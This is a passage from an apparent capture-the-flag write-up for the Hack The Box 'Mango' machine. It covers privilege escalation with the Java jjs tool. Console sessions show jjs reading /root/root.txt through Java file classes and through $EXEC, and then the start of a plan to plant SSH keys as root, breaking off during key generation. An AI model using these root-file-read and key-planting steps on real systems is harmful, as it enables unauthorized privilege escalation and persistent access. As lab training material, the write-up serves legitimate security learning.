 ![](images/gtfoFileRead.png)

```console
admin@mango:/usr/lib/jvm/java-11-openjdk-amd64/bin$ jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> while ((line = br.readLine()) != null) { print(line); }
8a8ef79a7a2fbb01ea81688424e9ab15
jjs> 
```

later i found out that there is an easier way than given on gtfobins page  
if we run jjs with "-scripting" tag then we can directly run bash commands  
```console
admin@mango:/usr/lib/jvm/java-11-openjdk-amd64/bin$ jjs -scripting
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> $EXEC("cat /root/root.txt");
8a8ef79a7a2fbb01ea81688424e9ab15
jjs> 
```

## Getting root shell via SSH keys
we got root.txt but to get a root shell we have to do something more  
we know we can write files as root so we can add our ssh keys and then ssh as root  
for writing in a file we can either use commands given on gtfobins or directly use bash commands  

first create RSA keys using ssh-keygen  
```console
root@kali:~/Desktop/HTB/activeMachines/Linux/Mango# ssh-keygen                                                                                                                                                     
Generating public/private rsa key pair.                                                                                                                                                                            
Enter file in which to save the key (/root/.ssh/id_rsa): ./sshRootKeys/id_rsa                                                                                                                                      
Enter passphrase (empty for no passphrase):                                                                                                                                                                        
Enter same passphrase again:                                                                                                                                                                                       
Your identification has been saved in ./sshRootKeys/id_rsa.                                                                                                                                                        
Your public key has been saved in ./sshRootKeys/id_rsa.pub.                                                                                                                                                        
```